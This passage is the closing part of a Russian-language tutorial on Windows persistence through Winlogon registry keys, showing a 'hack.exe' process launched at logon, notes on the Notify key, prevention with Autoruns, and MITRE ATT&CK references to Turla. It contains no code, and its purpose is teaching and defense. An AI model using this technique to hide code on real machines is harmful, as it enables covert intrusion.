{width="80%"}    

Затем перезаходим в систему:

{width="80%"}    

{width="80%"}    

Проверяем свойства процесса `hack.exe`:

{width="80%"}    

Как видно, родительский процесс - `Non-existent process`. Родительский процесс отображается как `Non-existent process`, так как `userinit.exe` завершает свою работу.

### дополнительные замечания

Ключ реестра `Notify` обычно присутствует в старых операционных системах (до `Windows 7`) и указывает на DLL-файл, который управляет событиями Winlogon. Если заменить DLL в этом ключе на любую другую, Windows выполнит её во время входа в систему.

### меры по предотвращению

Ограничьте привилегии учётных записей пользователей, чтобы только авторизованные администраторы могли изменять настройки Winlogon. Также можно использовать такие инструменты, как [Sysinternals Autoruns](https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns), для обнаружения изменений в системе, которые могут указывать на попытки закрепления, например, проверяя текущие значения Winlogon.

Этот трюк закрепления используется группой [Turla](https://attack.mitre.org/groups/G0010/) и вредоносными программами, такими как [Gazer](https://attack.mitre.org/software/S0168/) и [Bazaar](https://attack.mitre.org/software/S0534/).

[MITRE ATT&CK - Boot or Logon Autostart Execution: Winlogon Helper DLL](https://attack.mitre.org/techniques/T1547/004/)    
[Turla](https://attack.mitre.org/groups/G0010/)    
[Gazer backdoor](https://attack.mitre.org/software/S0168/)    
[Bazaar](https://attack.mitre.org/software/S0534/)    
[исходный код на Github](https://github.com/cocomelonc/2022-06-12-malware-pers-7)    
